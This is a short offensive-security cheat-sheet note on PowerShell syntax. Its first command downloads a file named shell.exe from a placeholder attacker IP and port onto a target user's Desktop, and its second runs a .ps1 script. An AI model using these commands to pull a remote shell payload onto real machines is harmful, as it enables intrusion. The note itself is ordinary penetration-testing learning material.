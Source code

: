 # Powershell Command Syntax
To perform a web request and save-to-file, similar to `wget -O ...` You can use this syntax,
```
Invoke-WebRequest -Uri http://(ATTACKER IP):(PORT)/shell.exe -OutFile C:\Users\(TARGET USER)\Desktop\shell.exe
```
And invoke with,
```
C:\> powershell -File C:\PATH\TO\FILE.PS1
```
